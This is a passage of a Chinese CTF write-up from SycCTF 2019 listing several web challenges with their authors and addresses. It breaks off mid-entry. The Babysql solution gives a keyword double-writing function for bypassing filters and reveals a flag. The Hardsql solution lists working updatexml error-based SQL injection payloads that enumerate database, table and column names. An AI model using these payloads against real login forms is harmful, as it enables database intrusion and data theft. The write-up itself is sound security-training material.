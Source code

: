 ### 11.李三的代码审计笔记第二页
> 出题人：cl0und
> 听说李三用这个裁剪他的头像，http://ctf1.redteam.today:8233/www.zip
> 地址:http://ctf1.redteam.today:8233/
> 附件下载：[点击下载](/sycctf2019/www.zip)



### 12.Babysql
> 出题人：cl4y
> 成信大的学生真是不得了，这么多黑客，不过这次我做了防御的！
> 地址:http://118.25.14.40:8102/

对危险字符进行过滤，替换为空，这里双写绕过就好，payload参考lovelysql（第9题），使用下面方法替换password
```python
def doubleKeyword(str):
    str = str.replace("union","ununionion")
    str = str.replace("select","seselectlect")
    str = str.replace("from","frfromom")
    str = str.replace("or","oorr")
    str = str.replace("where","whwhereere")
    str = str.replace("and","anandd")
    return str
```
得到flag
```
Syc{Cl4y_w4ngt5_A_g1rlfri3nd}
```

### 13.神秘的三叶草
> 出题人：cl4y
> 柳暗花明
> 地址:http://118.25.14.40:8108/

### 14.Eval evil code
> 出题人：Ayrain
> Lamber是个老实人，他会执行你给他的代码。
> 地址:http://148.70.59.198:34386/

### 15.Jiang‘s Secret
> 出题人：cl4y
> 我在那放了一个秘密！
> 地址:http://118.25.14.40:8106/


### 16.Hardsql
> 出题人：cl4y
> 信安之路，任重道远…
> 地址:http://118.25.14.40:8103/
> hint:sql报错注入

因为对union过滤，所以不能用联合查询了，or|and|substr|if|hex|mid|char|等等都进行了过滤，这里只能用报错注入，updatexml，extractvalue都可以
```
# 数据库名
username=admin&password=admin'^updatexml(1,concat(0x7e,(select(group_concat(schema_name))from(information_schema.schemata)),0x7e),1)#

# 表名
username=admin&password=admin'^updatexml(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like'geek'),0x7e),1)#

# 列名
username=admin&password=admin'^updatexml(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name)like'H4rDsq1'),0x7e),1)#

```